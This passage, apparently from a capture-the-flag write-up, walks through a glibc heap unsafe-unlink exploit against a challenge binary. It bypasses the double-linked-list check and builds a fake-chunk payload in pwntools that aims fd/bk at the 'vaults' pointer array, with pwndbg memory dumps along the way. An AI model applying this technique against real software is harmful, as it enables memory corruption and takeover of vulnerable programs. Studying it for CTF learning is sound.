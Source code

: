 ```c
if (P->fd->bk != P || P->bk->fd != P)
```

This check is ensuring that the forward and backward pointers are consistent with the current chunk being unlinked. If they are not, it indicates a corruption in the double-linked list structure, hence the error.
We need `fd` and `bk` pointers such that when the check happens it points to current chunk.<br>
If you open binary in IDA or Gidra you can observe that our allocated pointers are stored in binary named as `vaults`.

```bash
pwndbg> dq &vaults
0000000000404090     0000000000405010 00000000004050a0
00000000004040a0     0000000000000000 0000000000000000
00000000004040b0     0000000000000000 0000000000000000
00000000004040c0     0000000000000000 0000000000000000
```

What if we use `vaults` address as `fd` and `bk` pointers? This way, we can ensure that the double-linked list structure remains intact during the unlinking process, and we can successfully exploit the vulnerability.

```python
fd  = elf.sym.vaults-0x18
bk = elf.sym.vaults-0x10
```

In `fd` first two 8 bytes goes for heap metadata and 4th quadword points to our pointer. Similarly, in `bk` first two 8 bytes goes for heap metadata and 3rd quadword points to our pointer.<br>
We can bypass the check easily and trigger the unlinking process without any issues.<br>
Now let's free the second chunk.

```python
payload = p64(fd) + p64(bk) + p8(0)*0x70 + p64(prev_size) + p64(fake_size)
```

Oopss! We again encountered `corrupted double-linked list` error. This is because malloc uses metadata pointers i.e in this case the pointer should be `0x405000` but we are passing `0x405010` so it tries to look for `fd` and `bk` at `0x405020` and `0x405028` instead of `0x405010` and `0x405018`.<br>
Let's Craft a fake chunk.

```python
prev_size = 0x80
fake_size = 0x90
fd  = elf.sym.vaults-24
bk = elf.sym.vaults-0x10

payload = p64(0) + p64(0x80) # Heap metadata
payload += p64(fd) + p64(bk) # fd and bk
payload += p8(0)*0x60
payload += p64(prev_size) + p64(fake_size)
```

Now lets run again and try to free second chunk. Lets inspect the memory layout.<br>
{{< alert >}}
Don't use vis in pwndbg after free instead use `dq mp_.sbrk_base` to check heap
{{< /alert >}}
